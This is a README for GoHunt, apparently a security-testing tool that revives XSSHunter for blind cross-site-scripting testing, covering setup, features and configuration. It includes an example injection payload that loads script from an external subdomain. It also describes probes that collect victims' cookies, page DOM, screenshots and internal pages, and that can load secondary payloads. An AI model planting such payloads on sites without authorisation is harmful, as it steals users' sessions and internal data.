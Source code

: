 # GoHunt

A revival of [XSSHunter](https://github.com/mandatoryprogrammer/xsshunter), `GoHunt` brings all your favorite `XSSHunter` functionality. Plus quality of life improvements!

![image](https://github.com/user-attachments/assets/310053ad-0d92-42bc-ae72-fa439e567373)

![image](https://github.com/user-attachments/assets/3dd8a917-b313-4c34-929d-4df67c648c31)

![image](https://github.com/user-attachments/assets/d2a48ad0-cf17-48a6-a58b-055432efcb8c)

![image](https://github.com/user-attachments/assets/14bd78dd-9938-43ef-919a-0c1b87e5241c)


Main changes:
- Single golang binary or docker deployment
- Additional notification methods 
- Bulk deletion/editing 
- Single Sign on


## Requirements
* A domain name
* Docker/Podman
* Ability to set DNS records

## Setup

Set a wildcard DNS record to your GoHunt instance
```sh
example.com A <YOUR INSTANCE IP>
*.example.com CNAME example.com
```

Create an `.env` file, you can use the `.env.dev` as a template.
```sh
DOMAIN=localhost:8081
GOHUNT_USERNAME=test
DB_PASSWORD=averystrongpassword
#GOHUNT_PASSWORD=yourstrongpasswordhere (optional)
```

Remember to set your `DOMAIN`!

Start the `docker-compose.yaml`:
```sh
docker compose -f docker-compose.yaml up -d
```

Thats it!

## Summary of Functionality
*Upon signing up you will create a subdomain such as `yoursubdomain.example.com` which identifies your XSS vulnerabilities and hosts your payload. You then use this subdomain in your XSS testing, using injection attempts such as `"><script src=//yoursubdomain.example.com></script>`. GoHunt will automatically serve up XSS probes and collect the resulting information when they fire.*

## Features
* **Single Sign-on** GoHunt supports OIDC for logging in to your service
* **User Management** Admin users can update and edit user records
* **Managed XSS payload fires**: Manage all of your XSS payloads in your GoHunt account's control panel, including bulk deleting
* **Powerful XSS Probes**: The following information is collected everytime a probe fires on a vulnerable page:
    * The vulnerable page's URI 
    * Origin of Execution 
    * The Victim's IP Address 
    * The Page Referer 
    * The Victim's User Agent 
    * All Non-HTTP-Only Cookies 
    * The Page's Full HTML DOM 
    * Full Screenshot of the Affected Page 
    * Responsible HTTP Request (If an GoHunt compatible tool is used) 
* **Full Page Screenshots**: GoHunt probes utilize the HTML5 canvas API to generate a full screenshot of the vulnerable page which an XSS payload has fired on. With this feature you can peak into internal administrative panels, support desks, logging systems, and other internal web apps. This allows for more powerful reports that show the full impact of the vulnerability to your client or bug bounty program.
* **XSS Payloads Fire Notifications**: XSS payload fires also send out **webhooks** or **email** notifications, your choice!
* **Automatic Payload Generation**: GoHunt automatically generates XSS payloads for you to use in your web application security testing.
* **Correlated Injections**: Perhaps the most powerful feature of GoHunt is the ability to correlated injection attempts with XSS payload fires. By using an [GoHunt/XSSHunter compatible testing tool](https://github.com/mandatoryprogrammer/xsshunter_client) you can know immediately what caused a specific payload to fire (even weeks after the injection attempt was made!).
* **Option PGP Encryption for Payload Emails**: Extra paranoid? Client-side PGP encryption is available which will encrypt all injection data in the victim's browser before sending it off to the GoHunt service.
* **Page Grabbing**: Upon your XSS payload firing you can specify a list of relative paths for the payload to automatically retrieve and store. This is useful in finding other vulnerabilities such as bad `crossdomain.xml` policies on internal systems which normally couldn't be accessed.
* **Secondary Payload Loading**: Got a secondary payload that you want to load after GoHunt has done it's thing? GoHunt offers you the option to specify a secondary JavaScript payload to run after it's completed it's collection.
* **Confidential Mode**: Dont want to send any details with your notifications? To be safe, this option only means you get notification and no details to your **slack**, **discord**, or email inbox

## Advanced

### Using alternative reverse proxies

GoHunt requires the `X-Forwarded-Proto` and `X-Forwarded-For` headers if running behind a reverse proxy. 
Caddy, by default sends these headers. 
To parse `X-Forwarded-For` GoHunt also needs to be configured with how many proxies are in-front of your instance, so please set `number_proxies` in the yaml config, or the `NumberProxies` environment variable

## Environment variables

Here is the list of environment variables that gohunt takes. 
Please read the `Using config file` section for each environment variable purpose, or use `./gohunt -h`

```
Domain
ListenAddress
NumberProxies
Features_Signup_Enabled
Features_Oidc_Enabled
Features_Oidc_PublicURL
Features_Oidc_IssuerURL
Features_Oidc_ClientID
Features_Oidc_ClientSecret
Features_Oidc_AdminGroupClaimName
Features_Oidc_AdminGroup
Notification_SMTP_Enabled
Notification_SMTP_Host
Notification_SMTP_Port
Notification_SMTP_Username
Notification_SMTP_Password
Notification_SMTP_FromEmail
Notification_Webhooks_Enabled
Notification_Webhooks_SafeDomains
Notification_Confidential
Database_Host
Database_Port
Database_User
Database_DBname
Database_SSLmode
Database_Password
```

## Using config file

If you want to use a yaml config file instead of passing everything via `ENV` variables, use the `config.yaml.example` as a template, and add the following to your docker compose in the `gohunt` section:

```yaml
volumes:
    - ./config.yaml:/config/config.yaml:ro
```

The following is all the configuration options and their purpose:
```yaml
domain:         (string) Your gohunt instance domain (add port if not default 443/80)
listen_address: (string) The ip:port combination start the golang http server on
number_proxies: (int)    Used to parse X-Forwarded-For
features: 
  signup:
      enabled: (bool) Enable or disable account creation
  oidc:
   enabled:                (bool)   Enable or disable OIDC SSO integration
   public_url:             (string) URL of Gohunt instance (option can be determined from domain)
   issuer_url:             (string) Identity provider URL
   client_id:              (string) OIDC Client ID
   client_secret:          (string) OIDC Client Secret
   admin_group_claim_name: (string) Claim with user groups in it (optional)
   admin_group_name:       (string) Group that indicates user should be administrator of instance (optional)

  notification:
    confidential:   (bool) Whether to add xss vulnerablity details to notification
    smtp:
      enabled:      (bool)   Enable or disable sending notifications via SMTP
      host:         (string) Host domain/ip
      port:         (int)    Port
      username:     (string) Mailing username
      password:     (string) Mailing password
      from:         (string) The sending email address
    webhooks:
      enabled:      (bool) Enable or disable sending notifications via webhooks
      safe_domains: (string array) List of domains that are safe to send to, defaults to [discord.com, slack.com]

  database:
     host:     (string) Host domain/ip
     port:     (string) Port
     user:     (string) Database user
     password: (string) Database user password
     dbname:   (string) Which database to use
     sslmode:  (string) postgres sslmode
```

## Development

```sh
docker compose -f docker-compose.dev.yaml down --remove-orphans
docker compose -f docker-compose.dev.yaml --env-file .env.dev up --build --force-recreate
```